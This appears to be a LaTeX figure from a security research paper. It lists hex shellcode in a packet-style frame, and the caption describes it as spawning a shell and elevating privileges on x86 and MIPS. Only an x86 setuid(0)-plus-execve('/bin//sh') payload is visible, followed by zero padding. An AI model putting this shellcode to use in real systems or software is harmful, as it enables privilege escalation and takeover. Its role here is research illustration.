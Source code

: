 \documentclass[10pt,]{book}
\begin{document}
\begin{lstlisting}[basicstyle=\scriptsize\tt, ,
caption=An example of a shellcode PIP for X86 and MIPS which attempts to spawn a shell and elevate permissions.  Shellcode for each architecture was taken from \autocite{@Imrigan}\autocite{@TheWorm:vp}.]
eb020008 00000000 6a175831 dbcd80b0 80b02ecd 806a0b58 9952682f 2f736868
2f62696e 89e35253 89e1cd80 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000

\end{lstlisting}
\end{document}
